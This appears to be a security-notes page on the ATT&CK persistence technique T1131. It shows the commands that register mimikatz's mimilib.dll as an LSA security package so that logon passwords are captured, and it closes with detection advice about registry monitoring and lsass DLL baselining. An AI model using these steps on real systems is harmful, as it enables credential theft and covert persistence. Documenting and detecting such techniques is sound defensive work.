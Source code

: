 ```yaml
---
description: Persistence
---
```


# T1131: Authentication Packages

This technique abuses Windows Authentication Packages and injects a DLL into the LSA process. For this, mimikatz library mimilib.dll will be used. It will serve as a keylogger and save logon passwords next time someone will attempt a logon to the compromised host.

## Execution

Copying the evil DLL:

{% tabs %}
{% tab title="attacker@victim" %}
```cpp
PS C:\> copy mimilib.dll %systemroot%\system32
```
{% endtab %}
{% endtabs %}

Check which LSA Security Packages are already on the list:

{% tabs %}
{% tab title="attacker@victim" %}
```bash
PS C:\> reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u
```
{% endtab %}
{% endtabs %}

Add mimilb to the Security Support Providers:

{% tabs %}
{% tab title="attacker@victim" %}
```csharp
PS C:\> reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
Value Security Packages exists, overwrite(Yes/No)? y
The operation completed successfully.
```
{% endtab %}
{% endtabs %}

The below shows the screens of the Security Packages registry value with the **mimilib** injected and the kiwissp.log file with a redacted password that had been logged during the user logon:

![](../../.gitbook/assets/lsa-security-packages.png)

## Observations

It may be worth monitoring `Security Packages` value in`hklm\system\currentcontrolset\control\lsa\` key for changes. Newly added packages should be inspected:

![](../../.gitbook/assets/lsa-commandline.png)

![](../../.gitbook/assets/lsa-security-packages.png)

As expected, mimilib.dll can be observed in the list of DLLs loaded by the lsass.exe process, so as a defender, you may want to make a baseline of loaded known good DLLs of the lsass process and monitor for any new DLLs being loaded:

![](../../.gitbook/assets/lsa-loaded-dll.png)

## References

{% embed url="https://github.com/veramine/Detections/wiki/LSA-Packages" %}

{% embed url="https://adsecurity.org/?p=1760" %}

{% embed url="https://attack.mitre.org/wiki/Technique/T1131" %}

